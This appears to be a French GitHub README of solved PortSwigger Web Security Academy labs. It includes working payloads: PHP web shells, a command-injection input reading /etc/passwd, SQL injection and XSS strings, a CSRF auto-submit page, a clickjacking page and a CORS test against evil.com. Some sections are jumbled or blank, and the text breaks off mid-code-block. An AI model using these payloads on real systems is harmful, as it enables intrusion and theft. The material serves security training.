








[🏠 Accueil du repo](../../README.md) 

# Notes PortSwigger — Web Security Academy

Labs résolus de la Web Security Academy : access control, authentification, SSRF, upload, SQLi, XSS…

## Sommaire

- [Lab 1 — Path traversal](#lab-1--path-traversal)
- [Lab 2 — Unprotected admin functionality](#lab-2--unprotected-admin-functionality)
- [Lab 3 — Unprotected admin panel with unpredictable URL](#lab-3--unprotected-admin-panel-with-unpredictable-url)
- [Lab 4 — User role controlled by a request parameter](#lab-4--user-role-controlled-by-a-request-parameter)
- [Lab 5 — User ID controlled by request parameter, with unpredictable user IDs](#lab-5--user-id-controlled-by-request-parameter-with-unpredictable-user-ids)
- [Lab 6 — User ID controlled by request parameter with password disclosure](#lab-6--user-id-controlled-by-request-parameter-with-password-disclosure)
- [Lab 7 — Username enumeration via different responses](#lab-7--username-enumeration-via-different-responses)
- [Lab 8 — 2FA simple bypass](#lab-8--2fa-simple-bypass)
- [Lab 9 — Basic SSRF against the local server](#lab-9--basic-ssrf-against-the-local-server)
- [Lab 10 — Basic SSRF against another back-end system](#lab-10--basic-ssrf-against-another-back-end-system)
- [Lab 11 — Remote code execution via web shell upload](#lab-11--remote-code-execution-via-web-shell-upload)
- [Lab 12 — Web shell upload via Content-Type restriction bypass](#lab-12--web-shell-upload-via-content-type-restriction-bypass)
- [Lab 13 — SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#lab-13--sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
- [Lab 14 — OS command injection, simple case](#lab-14--os-command-injection-simple-case)
- [Lab 15 — SQL injection vulnerability allowing login bypass](#lab-15--sql-injection-vulnerability-allowing-login-bypass)
- [Lab 16 — Reflected XSS into HTML context with nothing encoded](#lab-16--reflected-xss-into-html-context-with-nothing-encoded)
- [Lab 17 — SQL injection attack, querying the database type and version on Oracle](#lab-17--sql-injection-attack-querying-the-database-type-and-version-on-oracle)
- [Lab 18 — Basic password reset poisoning](#lab-18--basic-password-reset-poisoning)
- [Lab 19 — CSRF vulnerability with no defenses](#lab-19--csrf-vulnerability-with-no-defenses)
- [Lab 20 — Basic clickjacking with CSRF token protection](#lab-20--basic-clickjacking-with-csrf-token-protection)
- [Lab 21 — CORS vulnerability with basic origin reflection](#lab-21--cors-vulnerability-with-basic-origin-reflection)
- [Lab 22 — Stored XSS into HTML context with nothing encoded](#lab-22--stored-xss-into-html-context-with-nothing-encoded)
- [Lab 23 — DOM XSS in document.write sink using source location.search](#lab-23--dom-xss-in-documentwrite-sink-using-source-locationsearch)
- [Lab 24 — DOM XSS in jQuery anchor href attribute sink using location.search source](#lab-24--dom-xss-in-jquery-anchor-href-attribute-sink-using-locationsearch-source)
- [Lab 25 — DOM XSS in jQuery selector sink using a hashchange event](#lab-25--dom-xss-in-jquery-selector-sink-using-a-hashchange-event)
- [Lab 26 — Reflected XSS into attribute with angle brackets HTML-encoded](#lab-26--reflected-xss-into-attribute-with-angle-brackets-html-encoded)
- [Lab 27 — Stored XSS into anchor href attribute with double quotes HTML-encoded](#lab-27--stored-xss-into-anchor-href-attribute-with-double-quotes-html-encoded)
- [Lab 28 — DOM XSS in innerHTML sink using source location.search](#lab-28--dom-xss-in-innerhtml-sink-using-source-locationsearch)
- [Lab 29 — Reflected XSS into a JavaScript string with angle brackets HTML encoded](#lab-29--reflected-xss-into-a-javascript-string-with-angle-brackets-html-encoded)

---

[⬆ Sommaire](#sommaire)

## Lab 1 — Path traversal

**Catégorie :** Path Traversal

This lab contains a path traversal vulnerability in the display of
product images. To solve the lab, retrieve the contents of the
`/etc/passwd` file.

**Contexte :**

Imagine a shopping application that displays images of items for sale.
This might load an image using the following HTML:

    

The image files are stored on disk in the location `/var/www/images/`.

**Résolution :**

En Burp Suite, on intercepte l’image, puis on modifie le code HTML de
l’image. On peut le changer pour :

    

Le `../` permet de remonter de répertoire en répertoire jusqu’au
répertoire racine où se trouve `/``etc``/``passwd`. On transmet ensuite
la requête, et on obtient l’accès à toutes les informations sensibles
contenues dans le fichier `/``etc``/``passwd`.

[⬆ Sommaire](#sommaire)

## Lab 2 — Unprotected admin functionality

**Catégorie :** Access Control

This lab has an unprotected admin panel. Solve the lab by deleting the
user carlos.

**Contexte :**

For example, a website might host sensitive functionality at the
following URL:

    https://insecure-website.com/admin

In some cases, the administrative URL might be disclosed in other
locations, such as the `robots.txt` file:

    https://insecure-website.com/robots.txt

**Résolution :**

Il y a deux façons de faire :

1.  **La plus simple** : écrire `robots.txt` après l’URI complète dans
    le navigateur.
2.  **La plus technique** : utiliser une commande dans le terminal :

<!-- -->

    gobuster dir -u https://0a1200ef04844933828bfbab000100eb.web-security-academy.net/ -w /usr/share/wordlists/dirb/common.txt



Résultat gobuster

Cette commande trouve tous les endpoints accessibles après l’URL du
site.

Dans `robots.txt`, on trouve `/``administrator``-panel`. On accède
ensuite à :

    https://0a1200ef04844933828bfbab000100eb.web-security-academy.net/administrator-panel

Et on peut supprimer l’utilisateur carlos.

[⬆ Sommaire](#sommaire)

## Lab 3 — Unprotected admin panel with unpredictable URL

**Catégorie :** Access Control

This lab has an unprotected admin panel. It’s located at an
unpredictable location, but the location is disclosed somewhere in the
application. Solve the lab by accessing the admin panel and using it to
delete the user carlos.

**Contexte :**

Imagine an application that hosts administrative functions at the
following URL:

    https://insecure-website.com/administrator-panel-yb556

This might not be directly guessable by an attacker. However, the
application might still leak the URL to users — par exemple dans du
JavaScript qui construit l’interface utilisateur en fonction du rôle de
l’utilisateur.

**Résolution :**

On cherche le code source de la page ou la réponse de la page dans Burp
Suite :



Code source révélant l’URL admin

Puis on accède directement à :

    https://0af900b403dbf3788137116100ae00fb.web-security-academy.net/admin-bfs2d3

[⬆ Sommaire](#sommaire)

## Lab 4 — User role controlled by a request parameter

**Catégorie :** Access Control

This lab has an admin panel at `/admin`, which identifies administrators
using a forgeable cookie. Solve the lab by accessing the admin panel and
using it to delete the user carlos.

**Identifiants :** `wiener:peter`

**Contexte :**

Some applications determine the user’s access rights or role at login
and then store this information in a user-controllable location. This
could be :

- A hidden field
- A cookie
- A preset query string parameter

**Résolution :**

Dans Burp Suite, on modifie le cookie `id=``wiener` en `admin=``true`.
On obtient alors une réponse contenant deux liens :

    <a href="/admin/delete?username=carlos">
    <a href="/admin/delete?username=wiener">

On prend l’URL de la page :

    https://0ae200a4049f1e3380888a7f00e2000e.web-security-academy.net/admin

Et on ajoute le href pour supprimer carlos :

    https://0ae200a4049f1e3380888a7f00e2000e.web-security-academy.net/admin/delete?username=carlos

[⬆ Sommaire](#sommaire)

## Lab 5 — User ID controlled by request parameter, with unpredictable user IDs

**Catégorie :** Access Control (IDOR)

This lab has a horizontal privilege escalation vulnerability on the user
account page but identifies users with GUIDs. To solve the lab, find the
GUID for carlos, then submit his API key as the solution.

**Identifiants :** `wiener:peter`

**Contexte :**

Horizontal privilege escalation is when a user accesses another user’s
data at the same permission level. Par exemple, changer un paramètre
d’URL comme `id=123` en `id=124` pour voir le compte de quelqu’un
d’autre. C’est souvent dû à une vulnérabilité IDOR, où l’application ne
vérifie pas correctement si l’utilisateur est autorisé à accéder à cette
ressource. Même avec des IDs aléatoires (comme des GUIDs), c’est
toujours exploitable si ces IDs sont exposés ailleurs.

**Résolution :**

On arrive sur le site et on cherche un blog posté par l’utilisateur
carlos. On va dans Burp Suite et on récupère son id. Après connexion
avec `wiener:peter`, on change simplement l’URL en ajoutant l’id de
carlos. On obtient alors son API key.

[⬆ Sommaire](#sommaire)

## Lab 6 — User ID controlled by request parameter with password disclosure

**Catégorie :** Access Control (IDOR)

This lab has a user account page that contains the current user’s
existing password, prefilled in a masked input. To solve the lab,
retrieve the administrator’s password, then use it to delete the user
carlos.

**Identifiants :** `wiener:peter`

**Résolution :**

En se connectant avec ses identifiants, on voit dans l’URL un
`id=``wiener`. On change cet id en `administrator` ou `carlos`. On peut
ainsi voler le mot de passe de l’admin, se connecter avec son compte, et
aller dans le panel admin pour supprimer carlos.

[⬆ Sommaire](#sommaire)

## Lab 7 — Username enumeration via different responses

**Catégorie :** Authentication

This lab is vulnerable to username enumeration and password brute-force
attacks. It has an account with a predictable username and password,
findable via des wordlists (candidate usernames / candidate passwords).
To solve the lab, enumerate a valid username, brute-force this user’s
password, then access their account page.

**Résolution :**

On se connecte avec des identifiants aléatoires comme `wiener:peter`,
puis on va dans Burp Suite pour repérer la requête POST du formulaire de
login. On envoie la requête à l’Intruder (`Ctrl+I`). Dans l’Intruder, on
prend `wiener` et on ajoute `$` autour. On colle la liste de candidate
usernames et on lance l’attaque.

Une fois terminé, Burp trouve un seul username qui a une longueur de
réponse différente des autres — signe que la réponse retournée est
différente pour ce cas précis. On remplace ensuite `$``wiener``$` par le
username correct (ex. alabama), puis on répète la même méthode pour
trouver le mot de passe.

[⬆ Sommaire](#sommaire)

## Lab 8 — 2FA simple bypass

**Catégorie :** Authentication

This lab’s two-factor authentication can be bypassed. You have already
obtained a valid username and password, but do not have access to the
user’s 2FA verification code. To solve the lab, access Carlos’s account
page.

**Identifiants :** `wiener:peter` — **Victime :** `carlos:montoya`

**Résolution :**

On entre ses propres identifiants sur la page de login. Après
validation, on change l’URL pour revenir à la page principale — en
cliquant à nouveau sur “my account”, on peut sauter le code à 4 chiffres
demandé, car le site pense qu’on est déjà connecté. On répète la même
méthode pour carlos.

[⬆ Sommaire](#sommaire)

## Lab 9 — Basic SSRF against the local server

**Catégorie :** SSRF

This lab has a stock check feature which fetches data from an internal
system. To solve the lab, change the stock check URL to access the admin
interface at `http://localhost/admin` and delete the user carlos.

**Résolution :**

On consulte un article et son niveau de stock. Avec Burp Suite, on
intercepte la requête POST de vérification de stock et on l’envoie au
Repeater. On modifie la clé `stockApi` pour :

    http://localhost/admin

La réponse révèle une ligne : `/admin/``delete?username``=``carlos`. Il
suffit de remplacer à nouveau la clé stockApi par :

    http://localhost/admin/delete?username=carlos

[⬆ Sommaire](#sommaire)

## Lab 10 — Basic SSRF against another back-end system

**Catégorie :** SSRF

This lab has a stock check feature which fetches data from an internal
system. To solve the lab, use the stock check functionality to scan the
internal `192.168.0.X` range for an admin interface on port 8080, then
use it to delete the user carlos.

**Résolution :**

On active Burp Suite, on consulte un objet aléatoire et son stock check.
On envoie la requête POST du stock check à l’Intruder. L’objectif étant
de scanner les IPs entre `192.168.0.1` et `192.168.0.255`, on surligne
le dernier octet de l’IP et on ajoute `$` autour.

On crée un script bash pour générer la liste des valeurs à tester :

    for i in {2..254}; do echo $i >> numbers.txt; done

Ce script crée un fichier `numbers.txt` contenant les nombres de 1 à
255.

La stock API ressemble à :

    stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fadmin

On lance l’Intruder avec `numbers.txt` en payload. Une seule requête
retourne un code de statut 200 — c’est la seule qui renvoie
effectivement quelque chose. Dans cet exemple, `192.168.0.135` est la
bonne adresse IP stockApi. Dans le Repeater, la réponse donne :
`/``delete?username``=``carlos`. On ajoute ça à la clé stockApi pour
supprimer carlos.

[⬆ Sommaire](#sommaire)

## Lab 11 — Remote code execution via web shell upload

**Catégorie :** File Upload / RCE

This lab contains a vulnerable image upload function. It doesn’t perform
any validation on the files users upload before storing them on the
server’s filesystem. To solve the lab, upload a basic PHP web shell and
use it to exfiltrate the contents of the file `/home/carlos/secret`.

**Identifiants :** `wiener:peter`

**Payloads utiles :**

Lire un fichier arbitraire :

    <?php echo file_get_contents('/path/to/target/file'); ?>

Web shell simple :

    <?php echo system($_GET['command']); ?>

**Résolution :**

On crée un fichier `shell.php` contenant le web shell simple ci-dessus.
La requête web ressemble à :

    http://whatever.com/files/images/shell.php?command=cat /home/carlos/secret

Sur le site, on peut parcourir un avatar — on choisit le fichier
`shell.php` et on l’upload. Le site confirme que `/avatar/``shell.php` a
été mis à jour, mais accéder directement à cet endpoint renvoie “not
found”.



Fichier uploadé non trouvé au premier endpoint

En copiant le lien de l’image, on trouve le bon endpoint :
`/files/avatar/``shell.php`. On ajoute alors la commande directement
dans l’URL :

    https://0a5a00e304ac8ace81cfedff00430054.web-security-academy.net/files/avatars/shell.php?command=cat%20/home/carlos/secret

⚠️ **Attention :** l’echo est fait deux fois, donc il faut ne soumettre
qu’un seul segment comme solution valide.

[⬆ Sommaire](#sommaire)

## Lab 12 — Web shell upload via Content-Type restriction bypass

**Catégorie :** File Upload / RCE

This lab contains a vulnerable image upload function. It attempts to
prevent users from uploading unexpected file types but relies on
checking user-controllable input to verify this. To solve the lab,
upload a basic PHP web shell and use it to exfiltrate the contents of
the file `/home/carlos/secret`.

**Identifiants :** `wiener:peter`

**Résolution :**

Avec le même `shell.php` :

    <?php echo system($_GET['command']); ?>

On se connecte avec `wiener:peter` :



Page de compte après connexion

En essayant d’uploader `shell.php` directement, le site refuse :

> Sorry, file type application/x-php is not allowed. Only image/jpeg and
> image/png are allowed. Sorry, there was an error uploading your file.

Dans Burp Suite, on renvoie la requête au Repeater (`Ctrl+R`) :



Requête envoyée au Repeater

On change le `Content-Type` en `image/jpeg` et on renvoie :



Modification du Content-Type


Fichier accepté après modification

Une fois envoyé, on copie le lien de l’image :



Lien de l’image uploadée

Dans ce lien, on ajoute :

    ?command=ls /home/carlos/
    ?command=cat /home/carlos/secret

[⬆ Sommaire](#sommaire)

## Lab 13 — SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Catégorie :** SQL Injection

This lab contains a SQL injection vulnerability in the product category
filter. When the user selects a category, the application carries out a
SQL query like the following :

    SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform a SQL injection attack that causes the
application to display one or more unreleased products.

**Résolution :**

On affine la recherche avec une des catégories proposées par le site. On
teste d’abord avec un `'` en fin d’URL pour vérifier si le site est
vulnérable aux injections SQL.

Si le site est vulnérable, on ajoute en fin d’URL :

    ' or 1=1---

Exemple :

    https://0a3b006e047c98d78092f87b0080000a.web-security-academy.net/filter?category=Lifestyle' or 1=1---

[⬆ Sommaire](#sommaire)

## Lab 14 — OS command injection, simple case

**Catégorie :** OS Command Injection

This lab contains an OS command injection vulnerability in the product
stock checker. The application executes a shell command containing
user-supplied products and store IDs and returns the raw output from the
command in its response. To solve the lab, execute the `whoami` command
to determine the name of the current user.

**Résolution :**

Avec Burp Suite, on vérifie le stock d’un produit aléatoire, on récupère
la requête POST et on l’envoie au Repeater.

Avant :

    productId=18&storeId=2

Après :

    productId=18&storeId=2;cat /etc/passwd

[⬆ Sommaire](#sommaire)

## Lab 15 — SQL injection vulnerability allowing login bypass

**Catégorie :** SQL Injection

This lab contains a SQL injection vulnerability in the login function.
To solve the lab, perform a SQL injection attack that logs in to the
application as the administrator user.

**Résolution :**

Lab facile — il suffit de se connecter avec :

    Username : administrator'--
    Password : (n'importe quoi)

[⬆ Sommaire](#sommaire)

## Lab 16 — Reflected XSS into HTML context with nothing encoded

**Catégorie :** Cross-Site Scripting (XSS)

This lab contains a simple reflected cross-site scripting vulnerability
in the search functionality. To solve the lab, perform a cross-site
scripting attack that calls the `alert` function.

**Résolution :**

Le paramètre de recherche est réinjecté tel quel dans le HTML de la
réponse, sans aucun encodage. Il suffit donc d’injecter directement une
balise script dans le champ de recherche :

    <script>alert()</script>

[⬆ Sommaire](#sommaire)

## Lab 17 — SQL injection attack, querying the database type and version on Oracle

**Catégorie :** SQL Injection

This lab contains a SQL injection vulnerability in the product category
filter. You can use a UNION attack to retrieve the results from an
injected query. To solve the lab, display the database version string.

**Résolution :**

**Étape 1 : Trouver le nombre de colonnes**

Sur le paramètre vulnérable (généralement `category` dans l’URL, ex :
`/``filter?category``=Gifts`), on teste avec `ORDER BY` :

    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--

On continue jusqu’à obtenir une erreur — le dernier numéro qui
fonctionne sans erreur donne le nombre de colonnes (souvent 2 dans ce
lab).

**Étape 2 : Confirmer avec UNION SELECT NULL**

    ' UNION SELECT NULL,NULL FROM dual--

⚠️ Sur Oracle, contrairement à MySQL, on est **obligé** d’ajouter
`FROM dual` (une table système vide qui sert de “table bidon” pour
satisfaire la syntaxe SQL d’Oracle). Si ça ne renvoie pas d’erreur, on a
le bon nombre de colonnes.

**Étape 3 : Récupérer la version**

On remplace un des `NULL` par la requête qui donne la version :

    ' UNION SELECT banner, NULL FROM v$version--

`v$version` est une table système Oracle qui contient la chaîne de
version complète de la base (nom + numéro de version).

[⬆ Sommaire](#sommaire)

## Lab 18 — Basic password reset poisoning

**Catégorie :** Authentication

This lab is vulnerable to password reset poisoning. The user carlos will
carelessly click on any links in emails that he receives. To solve the
lab, log in to Carlos’s account.

**Identifiants :** `wiener:peter` — les emails envoyés à ce compte sont
lisibles via le client email sur le serveur d’exploit.

**Lab 19 Stored XSS into HTML context with nothing encoded**

This lab contains a stored cross-site scripting vulnerability in the
comment functionality.

To solve this lab, submit a comment that calls the alert function when
the blog post is viewed.



**Lab: DOM XSS in document.write sink using source location.search**

This lab contains a DOM-based cross-site scripting vulnerability in the
search query tracking functionality. It uses the JavaScript
document.write function, which writes data out to the page. The
document.write function is called with data from location.search, which
you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the
alert function.

**Resolution : "\>\<svg onload=alert(1)\>**

**Lab: DOM XSS in innerHTML sink using source location.search**

This lab contains a DOM-based cross-site scripting vulnerability in the
search blog functionality. It uses an innerHTML assignment, which
changes the HTML contents of a div element, using data from
location.search.

To solve this lab, perform a cross-site scripting attack that calls the
alert function.

Resolution: \

**Lab: DOM XSS in jQuery anchor href attribute sink using
location.search source**

This lab contains a DOM-based cross-site scripting vulnerability in the
submit feedback page. It uses the jQuery library's \$ selector function
to find an anchor element, and changes its href attribute using data
from location.search.

To solve this lab, make the "back" link alert document.cookie.

https://0adf00fc0445233780ecdf9b0084001a.web-security-academy.net/feedback?returnPath=javascript:alert(1)

**Lab: DOM XSS in jQuery selector sink using a hashchange event**

This lab contains a DOM-based cross-site scripting vulnerability on the
home page. It uses jQuery's \$() selector function to auto-scroll to a
given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the
print() function in their browser.


[⬆ Sommaire](#sommaire)

## Lab 19 — CSRF vulnerability with no defenses

**Catégorie :** CSRF (Cross-Site Request Forgery)

**Difficulté :** Apprentice

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change
the viewer's email address and upload it to the exploit server.

Identifiants fournis : `wiener:peter`.

**Contexte :**

La fonctionnalité de changement d'email (`/my-account/change-email`)
ne possède **aucune protection CSRF** : pas de token anti-CSRF dans le
formulaire, pas de vérification des headers `Origin`/`Referer`, et le
cookie de session n'a pas d'attribut `SameSite` restrictif. N'importe
quel site tiers peut donc forger une requête qui sera exécutée avec la
session de la victime, sans qu'elle s'en aperçoive.

Requête légitime observée dans Burp (Proxy > HTTP history) :

    POST /my-account/change-email HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    email=test@test.com

**Résolution :**

On construit une page HTML qui soumet automatiquement un formulaire
vers l'endpoint vulnérable, avec l'email de notre choix :

    <html>
      <body>
        <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="attacker@evil.com" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>

On héberge ce fichier sur le serveur d'exploit fourni par PortSwigger
(*Go to exploit server*) :

- **File :** `/exploit`
- **Head :** `HTTP/1.1 200 OK` / `Content-Type: text/html; charset=utf-8`
- **Body :** le HTML ci-dessus

On clique **Store** pour l'enregistrer, puis **Deliver exploit to
victim**. Le navigateur de la victime (authentifiée sur le lab) charge
la page, le formulaire se soumet seul via le `<script>`, et le cookie
de session est envoyé automatiquement par le navigateur puisque la
requête vise le même domaine que le cookie — le CSRF n'a besoin de
rien d'autre.

**Pourquoi ça marche :**

Le navigateur attache toujours les cookies d'un domaine aux requêtes
qui lui sont destinées, même si la page qui déclenche la requête vient
d'une origine totalement différente (ici le serveur d'exploit). Sans
token CSRF ni `SameSite=Strict/Lax` sur le cookie de session, le
serveur ne peut pas distinguer une requête volontaire de la victime
d'une requête forgée par un tiers.

**Remédiation :**

- Token CSRF unique par session, vérifié côté serveur sur chaque
  requête de modification d'état.
- Cookie de session avec `SameSite=Lax` (ou `Strict`), qui empêche le
  navigateur d'envoyer le cookie sur une requête cross-site de type
  `POST`.
- Vérification du header `Origin` ou `Referer` en complément, jamais
  comme seule protection (ces headers peuvent être absents ou
  manipulés dans certains contextes).

[⬆ Sommaire](#sommaire)

## Lab 20 — Basic clickjacking with CSRF token protection

**Catégorie :** Clickjacking

**Difficulté :** Apprentice

This lab is a sample Checkout page for an online store, vulnerable to
clickjacking. There's also a reflected XSS vulnerability. However, you
need to use a clickjacking attack to exploit this vulnerability.

To solve the lab, construct an HTML page that frames the account page
and fools the user into deleting their account, via a decoy website
that they're induced to interact with. The lab is solved when the
"My account" page deletion endpoint is triggered via the iframe.

**Contexte :**

Le site cible n'envoie pas de header `X-Frame-Options` ni de directive
`Content-Security-Policy: frame-ancestors`, donc n'importe quelle page
peut le charger dans un `<iframe>`. L'attaque consiste à superposer un
élément visible et inoffensif (`<div>Click</div>`) au-dessus de
l'iframe, positionné exactement sur le bouton à piéger, tout en rendant
l'iframe transparent (`opacity: 0.1`). La victime croit cliquer sur le
`<div>`, mais c'est en réalité le clic sur le bouton du site ciblé qui
est déclenché, avec sa propre session déjà authentifiée.

**Résolution :**

On commence par ouvrir le lab et repérer le bouton à piéger sur la page
`/my-account` (ici, le bouton de suppression de compte). On inspecte la
page pour estimer sa position approximative.

Sur le serveur d'exploit (*Go to exploit server*), on crée la page
suivante :

    <style>
        iframe {
            position: relative;
            width: 700px;
            height: 600px;
            opacity: 0.1;
            z-index: 2;
        }
        div {
            position: absolute;
            top: 500px;
            left: 60px;
            z-index: 1;
        }
    </style>
    <div>Click</div>
    <iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>

L'iframe charge la vraie page `/my-account` du lab (avec la session de
la victime), rendue quasi invisible (`opacity: 0.1`). Le `<div>Click`
est positionné par-dessus, aux coordonnées exactes du bouton de
suppression de compte (ajustées par tâtonnement avec `top`/`left`).

On clique **Store**, puis **View exploit** pour ajuster la position du
`<div>` jusqu'à ce que le clic tombe pile sur le bouton réel (visible en
augmentant temporairement l'opacité pour calibrer). Une fois la
superposition correcte, on clique **Deliver exploit to victim** : le
clic de la victime sur le `<div>` déclenche en réalité la suppression
de son compte via l'iframe.

**Pourquoi ça marche :**

Le clickjacking détourne un clic légitime de l'utilisateur sans passer
par une requête forgée : contrairement au CSRF, il n'a pas besoin de
contourner un token anti-CSRF, puisque c'est le navigateur de la
victime, avec sa session réelle, qui exécute l'action dans l'iframe. Le
token CSRF est envoyé normalement, car c'est bien le formulaire
légitime du site qui est soumis — seule l'interface visuelle est
trompeuse.

**Remédiation :**

- Header `X-Frame-Options: DENY` ou `SAMEORIGIN` pour empêcher le
  framing.
- `Content-Security-Policy: frame-ancestors 'none'` (ou liste blanche
  des origines autorisées), qui remplace `X-Frame-Options` dans les
  navigateurs modernes.
- Scripts de *frame-busting* côté client en défense complémentaire
  (jamais comme seule protection, car contournables).

[⬆ Sommaire](#sommaire)

## Lab 21 — CORS vulnerability with basic origin reflection

**Catégorie :** CORS (Cross-Origin Resource Sharing)

**Difficulté :** Apprentice

This lab has an insecure CORS configuration in that it trusts all origins. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

**Identifiants :** `wiener:peter`

**Contexte :**

Le site expose un endpoint `/accountDetails` qui retourne des données sensibles (dont l'`apikey`) au format JSON, avec les headers suivants dans la réponse :

    Access-Control-Allow-Origin: <origin de la requête>
    Access-Control-Allow-Credentials: true

Le serveur reflète aveuglément n'importe quelle origine dans `Access-Control-Allow-Origin`. Combiné à `Access-Control-Allow-Credentials: true`, cela permet à un site tiers de lire la réponse cross-origin avec les cookies de session de la victime — exposant ainsi des données privées.

**Résolution :**

**Étape 1 — Identifier le champ sensible**

Se connecter avec `wiener:peter` et accéder à :

    /accountDetails

La réponse JSON retourne :

    {
      "username": "wiener",
      "email": "",
      "apikey": "zPWeYW9yjHY1Auk4Okx2SeKlcaRCLkka",
      "sessions": ["..."]
    }

**Étape 2 — Confirmer la vulnérabilité**

Dans Burp Suite, ajouter le header `Origin: https://evil.com` à la requête vers `/accountDetails`. La réponse reflète :

    Access-Control-Allow-Origin: https://evil.com
    Access-Control-Allow-Credentials: true

→ Vulnérable ✅

**Étape 3 — Payload sur le serveur d'exploit**

Sur le serveur d'exploit, coller dans le body :

```html
